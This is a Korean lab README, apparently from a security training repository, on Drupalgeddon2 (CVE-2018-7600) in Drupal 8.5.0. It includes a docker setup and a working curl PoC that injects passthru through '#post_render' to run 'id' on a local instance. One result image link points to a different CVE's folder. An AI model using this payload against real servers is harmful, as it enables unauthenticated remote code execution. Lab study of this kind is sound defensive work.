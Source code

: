 # CVE-2018-7600 - Drupalgeddon2 (Drupal 8.5.0 RCE)

## 1. 개요
- Drupal 8.5.0 버전에서 발생한 인증 없는 원격 코드 실행(RCE) 취약점이다.
- Form API 처리 로직의 결함을 통해 외부 사용자가 서버 명령어를 실행할 수 있다.

## 2. 취약점 원인
- Drupal이 사용자로부터 받은 `#post_render` 파라미터를 제대로 검증하지 않고 그대로 실행한다.
- 이로 인해 원격 사용자가 서버 측에서 임의의 PHP 함수나 시스템 명령어를 실행할 수 있다.

## 3. 환경 구축 (완전 자동화)

- `docker compose up -d` 명령어로 즉시 설치 완료된 Drupal 8.5.0 환경이 실행된다.

- `settings.php`, `init.sql` 설정파일 백업본 적용
- 별도의 수동 설치 과정 없이, 웹 접속 시 바로 Drupal 메인 화면을 확인할 수 있다.

**구성 자동화 방식:**
- `settings.php`: Drupal 설치 완료 상태 파일을 컨테이너 실행 시 복사
- `init.sql`: DB 초기 데이터 세팅을 컨테이너 시작 시 자동 적용

## 4. 실습 (PoC)

- 해당 스크립트는 Drupal 서버에 취약한 요청을 보내고 명령어 실행 결과를 확인할 수 있다.
- 자동 poc 실행 코드

### PoC 스크립트 (poc_exploit.sh)
명령어 자동실행
```
#!/bin/bash

echo "[*] Drupal CVE-2018-7600 PoC 실행 중..."

response=$(curl -k -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=passthru&mail[a][#markup]=id")

echo "[+] 서버 응답:"
echo "$response"
```

실행코드
```
chmod +x poc_exploit.sh
./poc_exploit.sh
```

## 5. 결과
[![image](https://github.com/won6c/whitehat-school-vulhub/blob/main/CVE-2021-22205/1.png)]
[![image](https://raw.githubusercontent.com/Thengelsec/kr-vulhub/feature/thengelsec/1.png)](https://github.com/Thengelsec/kr-vulhub)


- 쉘에서 id 명령어 결과가 나옴